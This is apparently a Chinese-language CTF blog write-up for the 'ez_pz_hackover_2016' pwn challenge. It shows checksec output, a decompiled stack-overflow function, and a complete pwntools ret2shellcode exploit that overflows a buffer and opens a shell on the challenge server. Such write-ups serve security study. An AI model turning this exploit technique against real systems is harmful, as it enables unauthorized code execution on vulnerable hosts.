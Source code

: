 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      【ez_pz_hackover_2016】WriteUp		# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2024-2-28				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-28.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - Pwn	
    - Ret2Shellcode
---
```


# 【ez_pz_hackover_2016】WriteUp

`checksec`发现NX保护未开启，因此可以考虑Ret2Shellcode。

```shell
[*] '/home/bronya/Documents/CTF/pwn17/ez_pz_hackover_2016'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

ida查看，发现存在栈溢出漏洞，其中n=0x400，因此可以尝试向dest中写入shellcode。

```c
void *__cdecl vuln(int src, size_t n)
{
  char dest[50]; // [esp+6h] [ebp-32h] BYREF

  return memcpy(dest, &src, n);
}
```

构造exp:

```python
from pwn import *

context(arch='i386', log_level='debug')

# p = process('./ez_pz_hackover_2016')
# gdb.attach(p, 'b *0x0804865D')
p = remote('node4.buuoj.cn', 26972)

elf = ELF('./ez_pz_hackover_2016')
printf_got = elf.got['printf']
printf_plt = elf.plt['printf']

shellcode = asm(shellcraft.sh())#生成shellcode，asm函数是进行汇编

p.recvuntil(b'Yippie, lets crash: 0x')
buf_addr = int(p.recv(8), 16) - 0x1c
print(hex(buf_addr))
shellcode_addr = buf_addr

payload = flat(b'crashme\x00', b'a'*(0x16-8), 0x0, shellcode_addr, shellcode)
p.sendlineafter(b'>', payload)

p.interactive()
```

